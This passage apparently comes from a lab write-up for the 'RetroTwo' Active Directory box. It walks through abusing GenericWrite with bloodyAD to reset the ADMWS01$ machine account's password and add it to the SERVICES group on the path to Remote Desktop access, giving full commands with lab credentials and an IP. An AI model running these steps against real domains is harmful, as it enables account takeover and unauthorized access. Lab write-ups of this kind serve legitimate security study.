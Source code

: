 Since we have **genericWrite** on **ADMWS01$** as **FS01$.**

Lets reset the password of **ADMWS01$** account.

```bash
bloodyAD -d retro2.vl -u 'FS01$' -p 'aashwin10!' --dc-ip 10.129.239.24 set password 'ADMWS01$' 'aashwin10!'
```

![image.png](/assets/images/RetroTwo_VL/image%2020.png)

So we now own **ADMWS01$** machine account.

### ADMWS01$ → SERVICES

Looking at the bloodhound data **ADMWS01$** can add itself to the **SERVICES** group.

![image.png](/assets/images/RetroTwo_VL/image%2021.png)

Lets add ourselves to the **SERVICES** group.

```bash
bloodyAD -d retro2.vl -u 'ADMWS01$' -p 'aashwin10!' --dc-ip 10.129.239.24 add groupMember 'Services' 'ADMWS01$'
```

![image.png](/assets/images/RetroTwo_VL/image%2022.png)

### SERVICES → RemoteDesktopUsers

The **SERVICES** group is a part of **REMOTE DESKTOP USERS.**

![image.png](/assets/images/RetroTwo_VL/image%2023.png)
